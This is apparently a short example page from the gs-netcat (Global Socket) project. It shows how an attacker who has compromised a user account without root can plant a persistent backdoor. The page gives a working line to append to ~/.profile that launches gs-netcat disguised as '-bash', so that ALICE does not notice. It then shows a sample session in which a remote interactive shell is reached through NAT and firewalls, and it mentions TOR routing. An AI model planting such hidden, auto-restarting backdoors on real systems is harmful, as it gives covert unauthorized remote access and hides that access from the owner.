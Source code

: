 # Global Socket User Login Shell (auto-restarting)
**Connect to a firewalled host**

**Problem**  
MALLORY gained access to ALICE but does not have superuser priviledges (root). MALLORY likes to access ALICE remotely. ALICE (and MALLORY) are on two different networks and behind a NAT/Firewall. Neither of them can reach the other.  

**Objective**  
Backdoor ALICE so that MALLORY can access ALICE remotely (without tampering with the firewall, NAT or router settings) and without superuser priviledges (root).

**Solution**  
Start gs-netcat from ALICE's *~/.profile* and to so secretly without ALICE noticing.


On "ALICE" add the following line to the end of *~/.profile*. This will start the gs-netcat backdoor every time that ALICE logs in. The gs-netcat process is hidden as *-bash* and shows up as *-bash* in the process list.
```
killall -0 gs-netcat 2>/dev/null || (GSOCKET_ARGS="-s ExampleKeyXXXXChangeMe -liqD" SHELL=/bin/bash exec -a -bash gs-netcat)
```

Immediately start the backdoor:
```ShellSession
alice@ALICE:~$ source ~/.profile
```

Now log in from "MALLORY" to "ALICE":
```ShellSession
m@MALLORY:~ $ gs-netcat -s ExampleKeyXXXXChangeMe -i
=Secret         : "ExampleKeyXXXXChangeMe"
=Encryption     : SRP-AES-256-CBC-SHA-End2End (Prime: 4096 bits)
alice@ALICE:~$ id
uid=1001(alice) gid=1001(alice)
alice@ALICE:~$
```

There are other ways to start a backdoor. This is an example.

Many more gs-netcat options are available: For example *-T* to connect via TOR. See the manual page of gs-netcat. 
